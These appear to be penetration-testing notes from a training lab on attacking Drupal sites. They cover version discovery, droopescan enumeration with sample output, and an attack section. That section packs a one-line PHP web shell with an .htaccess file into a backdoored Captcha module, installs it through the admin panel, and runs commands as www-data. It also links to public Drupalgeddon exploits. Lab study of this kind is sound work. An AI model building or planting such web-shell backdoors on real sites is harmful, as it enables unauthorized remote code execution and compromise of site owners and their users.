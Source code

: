 # Discovery
```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
```
Check /node/1 links

```
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

curl -s http://drupal.inlanefreight.local/CHANGELOG.txt

droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Enumeration
https://github.com/SamJoan/droopescan
Supported CMS are:
* SilverStripe
* [[Wordpress]]
* Drupal
Partial functionality for:
* [[joomla]] (version enumeration and interesting URLs only)
* Moodle (plugin & theme very limited, watch out)
```bash
git clone https://github.com/SamJoan/droopescan && cd droopescan
pip install -r requirements.txt

./droopescan scan drupal -u http://drupal.inlanefreight.local

[+] Plugins found:                                                              
    php http://drupal.inlanefreight.local/modules/php/
        http://drupal.inlanefreight.local/modules/php/LICENSE.txt

[+] No themes found.

[+] Possible version(s):
    8.9.0
    8.9.1

[+] Possible interesting urls found:
    Default admin - http://drupal.inlanefreight.local/user/login

[+] Scan finished (0:03:19.199526 elapsed)
```

# Attacks
## PHP Filter
installed by default before v8
or can be downloaded manually for >v8
```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
## Uploading a Backdored Module
```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz

echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]); ?>' > shell.php

cat .htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>

mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
Assuming we have administrative access to the website, click on Manage and then Extend on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdored Captcha archive and click Install.
```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## RCE
https://www.exploit-db.com/exploits/34992
https://www.exploit-db.com/exploits/44448
https://github.com/rithchard/Drupalgeddon3